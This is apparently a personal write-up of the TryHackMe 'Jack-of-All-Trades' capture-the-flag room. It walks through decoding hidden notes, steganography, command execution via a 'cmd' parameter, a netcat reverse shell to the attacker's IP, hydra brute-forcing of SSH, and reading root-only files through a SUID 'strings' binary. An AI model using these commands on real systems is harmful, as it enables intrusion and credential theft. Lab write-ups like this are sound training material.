

# Jack-of-All-Trades CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Jack-of-All-Trades** CTF challenge on [TryHackMe](https://tryhackme.com/room/jackofalltrades). 
---

after scanning we know about open ports: 22, 80


we have web server on port 22 and ssh on port 80 nice


we can find a note in base64:

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: REDACTED
```


on `recovery.php` we see another note this time we need to use base32 -> Hex -> ROT13 and we got:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

`bit.ly` link directs to wikipedia page about `Stegosauria`

i downloaded the stego.jpg and used the password from the first note, there is creds.txt hidden but it is fake file

there are also 2 other images: header and jackinthebox

the real creds are in the header file 

now we can head to recovery.php and log with credentials


we see `GET me a 'cmd'` so i assumed we will have some RCE


we can test it using `http://10.10.207.181:22/nnxhweOV/index.php?cmd=id` 


and it works, we can now upload rev shell i used this one

```
busybox nc 10.14.91.59 4445 -e /bin/bash
```


now we have shell access as `www-data`


in the /home folder we see a nice file called jacks_password_list and a user jack


having the password list we can try to brute force the login, we need to remember that ssh is on port 80 

```
hydra -l jack -P pass ssh://10.10.207.181:80 
```


we are now jack, we found user.jpg instead of .txt ...


we need to download the image using scp

```
scp -P 80 jack@10.10.207.181:/home/jack/user.jpg .
```

opening the file, we see user flag


we also found SUID for strings


GTFObins:


we can take a look at /etc/shadow



to grab the flag we can simply use `/usr/bin/strings /root/root.txt`


# FLAGS OBTAINED
